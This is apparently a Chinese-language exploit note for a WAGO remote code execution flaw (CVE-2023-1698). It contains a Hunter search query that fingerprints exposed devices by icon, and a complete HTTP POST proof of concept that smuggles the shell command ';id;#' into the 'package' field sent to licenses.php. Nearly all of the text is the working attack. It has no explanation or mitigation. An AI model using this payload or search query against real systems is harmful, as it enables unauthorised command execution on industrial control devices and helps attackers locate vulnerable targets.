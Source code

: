 ## WAGO系统远程代码执行漏洞(CVE-2023-1698)

## 鹰图 hunter
```
web.similar_icon=="10798453453671307224"
```
## poc
```
POST /wbm/plugins/wbm-legal-information/platform/pfcXXX/licenses.php HTTP/1.1  
Host: 127.0.0.0  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36  
Connection: close  
Content-Length: 19  
Content-Type: application/x-www-form-urlencoded  
Accept-Encoding: gzip, deflate  
  
{"package":";id;#"}  
```
![image](../../images/4fc4fd00-bde1-4852-b6bc-b2c9a5a0256d.png)
